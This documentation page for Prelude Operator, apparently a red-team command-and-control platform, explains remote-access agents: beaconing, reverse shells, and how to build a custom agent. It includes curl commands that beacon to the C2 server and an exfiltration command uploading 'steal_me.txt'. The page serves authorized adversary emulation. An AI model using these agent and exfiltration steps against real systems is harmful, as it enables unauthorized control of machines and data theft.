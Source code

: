 
# What is an agent

#### Remote Access Trojans

---

An agent, often referred to as a Remote Access Trojan, is a process running on a remote computer which can run commands while under the control of a bad actor.
Agents beacon into Operator periodically to ask for instructions to run. Each agent is
automatically grouped into a range. Agents communicate to Operator through one of several network protocols, 
such as TCP, UDP, or HTTP.

### What is ThirdEye?

---

ThirdEye is a Node.js agent that is built directly into Operator. When Operator starts, ThirdEye automatically launches
and beacons into your Home range with the username of the user running the desktop application. It only communicates
locally to Operator and is designed for testing TTPs out before deploying them in the wild. 
ThirdEye does not support reverse shells, nor can you delete this agent.

### What is Pneuma?

---

Our most popular open-source agent is called Pneuma, a Go agent which supports all major operating systems 
and 3 different protocols (TCP, UDP, HTTP). Pneuma is capable of executing nearly all TTPs and chains loaded into
Operator, along with built-in support for reverse shells (when connected over TCP).

### Additional agents

---

Prelude supports multiple script agents written in various languages. 
Some agents are designed for specific operating systems while others are multi-platform. 
You can find details about these agents in the main section, including download options to start using them.

### Agent limits

---

Operators are logical groupings of agents. For example, an Operator can be used to cluster agents from various platforms (darwin, 
linux, windows) in order to run a cross-platform chain against all the agents. Agents can be moved between Operators using 
either command line flags or the Update Config sidebar in the main section. Depending on the license level the maximum number of agents that can be connected at a single time differ - with 5 being the most for community members and 50 for professional and enterprise users.

### Locking an agent

---

Lock an agent in order to approve or reject each instruction (TTP) before it is picked up and executed. 
When an agent is locked, all instructions will enter pending state where you can approve or reject them one at a time.

### Simulation mode

---

You can set agents to "Simulation Mode" via the agent config sidebar. Simulation mode will run TTPs using output data from
the Expected Output section of the TTP's man page. When you toggle this mode, the chain will run as normal, but not actually
execute tasks on the endpoint.

### Agent facts

---

Each agent collects and manages its own collection of facts, which it will use as variables inside TTP commands.
You can interact with these facts by clicking into the Knowledge Store. You can supply an agent with new facts
manually or the agent can report facts itself through the Beacon object.
    
### Deleting an agent

---

When you delete a file-based agent, like Pneuma, the connection is stopped and the agent is archived - meaning
it will no longer show up inside Operator but the data remains in your workspace, if you need to restore it.
However, if you don't stop the agent's process on the compromised machine, the agent will just beacon back in
and create a new version of itself. To stop the process, you will need to send the agent an "exit" keyword command.
You can do this by using the "Stop Agent Process" procedure. Run this, then delete the agent to completely block it.

### Build your own agent

---

You can write your own agent in any language easily. Follow this simple interface to do so. Hint: if you enable 
plain-text encryption in the Settings section you can copy the below commands 
into a terminal to get a real agent online. 
The required Beacon properties are: name, target, location, platform, executors, range, sleep.

#### HTTP Agent 1st beacon to Operator

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Hostname":"whoami",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Range":"home",
    "Sleep":60,
    "Pwd":"/Users/me",
    "Executing":"",
    "Links":[],
    "Facts":[]
}'
```

#### Operator responds with instructions

```shell
{
    "links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6",
            "Executor":"sh",
            "Request":"arp -a",
            "Payload":""
        }
    ]
}
```

#### HTTP Agent executes instructions and sends a new beacon

```shell
curl -X POST localhost:3391 -d '{
    "Name":"david",
    "Target":"127.0.0.1:3391",
    "Hostname":"whoami",
    "Location":"/tmp/here",
    "Platform":"darwin",
    "Executors":["sh"],
    "Range":"home",
    "Sleep":60,
    "Pwd":"/Users/me",
    "Executing":"",
    "Links":[
        {
            "ID": "c1883712-c81b-40a8-952d-a15123c034c6"
            "Executor": "sh",
            "Payload": "",
            "Request": "arp -a",
            "Response": "some response",
            "Status": 0,
            "Pid": 123
       }
    ],
    "Facts":[]
}'
``` 

### Additional options

Aside from sending beacons, an agent can also exfiltrate files back to Operator over HTTP(s).
Below is an example in cURL. The agent must supply the API token along with its name. Any
exfiltrated files will be stored in your agent's artifacts directory (in the Prelude workspace).

```shell
curl -X PUT "http://localhost:3391" -H "key: ${operator.session}" -H "agent: ${agent.name}" -F upload=@steal_me.txt
```
